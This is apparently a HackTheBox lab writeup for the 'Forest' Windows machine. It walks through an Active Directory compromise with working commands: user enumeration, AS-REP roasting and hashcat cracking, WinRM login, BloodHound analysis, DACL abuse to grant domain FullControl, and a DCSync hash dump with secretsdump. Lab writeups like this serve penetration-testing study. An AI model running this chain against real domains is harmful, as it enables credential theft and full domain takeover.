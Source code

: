 ```yaml
---
title: "Forest - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - windows
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Forest
![](https://kar0nx.github.io/assets/images/writeup/7dedecb452597150647e73c2dd6c24c7.png)
## Reconnaissance

IP: 10.10.10.161
## NMAP

```
nmap -T4 -p- -A 10.10.10.161
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-08 13:05 UTC
Nmap scan report for 10.10.10.161
Host is up (0.030s latency).
Not shown: 65512 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       (generic dns response: SERVFAIL)
| fingerprint-strings: 
|   DNS-SD-TCP: 
|     _services
|     _dns-sd
|     _udp
|_    local
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2025-09-08 13:12:56Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49684/tcp open  msrpc        Microsoft Windows RPC
49706/tcp open  msrpc        Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.95%I=7%D=9/8%Time=68BED4D6%P=x86_64-pc-linux-gnu%r(DNS-S
SF:D-TCP,30,"\0\.\0\0\x80\x82\0\x01\0\0\0\0\0\0\t_services\x07_dns-sd\x04_
SF:udp\x05local\0\0\x0c\0\x01");
Device type: general purpose
Running: Microsoft Windows 2016
OS CPE: cpe:/o:microsoft:windows_server_2016
OS details: Microsoft Windows Server 2016
Network Distance: 2 hops
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2025-09-08T06:13:50-07:00
| smb2-time: 
|   date: 2025-09-08T13:13:52
|_  start_date: 2025-09-08T13:10:40
|_clock-skew: mean: 2h26m41s, deviation: 4h02m30s, median: 6m40s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   29.72 ms 10.10.14.1
2   29.78 ms 10.10.10.161

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 106.11 seconds
```

## SMB

Starting with enumerating smb for users and shares. Can't access shares with null session

```
nxc smb 10.10.10.161 -u "" -p "" --users
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250908150744.png)

first add htb.local to /etc/hosts
second create list of users

```
cat users.txt | awk '{print $5}'
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250908150901.png)

Ok we have userlist so start with:
## AS-REP Roasting

```
impacket-GetNPUsers -no-pass -usersfile usernames.txt htb.local/
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250908151407.png)

Great we got 1 hit, let's crack it with hashcat

```
hashcat -m 18200 hash /usr/share/wordlists/rockyou.txt
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250908151502.png)

svc-alfresco s3rvice
Checking access with nxc, nothing intersting in shares can't kerberoast.

```
nxc winrm 10.10.10.161 -u svc-alfresco -p s3rvice
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250908151627.png)

We can connect via evil-winrm and grab first flag.

```
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250908151933.png)

## Privilege Escalation 

Starting with whoami /all

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250908152033.png)

Two interesting domain groups let's investigate them in bloodhound:

```
bloodhound-python -d htb.local -u svc-alfresco -p s3rvice -ns 10.10.10.161 -c all
```

when I use pre-build searches: shortest paths from owned objects I found that `EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL` group have writedacl to DC

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250908153851.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250908153955.png)

So let's write clear path what to do.
We can add our self to EWP group vi GenericAll right and then use impacket-dacledit to add dacl to domain and next use impacket-secretsdump to dump ntds.dit. Let's goo!

## DCSync

Starting with adding to EWP group via net rpc

```
net rpc group addmem "EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL" "svc-alfresco" -U "htb.local"/"svc-alfresco"%"s3rvice"  -S "10.10.10.161"
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250908154524.png)

Confirm in evil-winrm

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250908154511.png)

Now writing dalc to domain controller 

```
impacket-dacledit -action 'write' -rights 'FullControl' -principal 'svc-alfresco' -target-dn 'DC=HTB,DC=LOCAL' 'htb.local'/'svc-alfresco':'s3rvice'
```

And dumping ntds.dit to retrive all hashes

```
impacket-secretsdump htb.local/svc-alfresco:'s3rvice'@10.10.10.161 -just-dc-ntlm
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250908160420.png)

Now we can connect via evil-winrm to get root flag.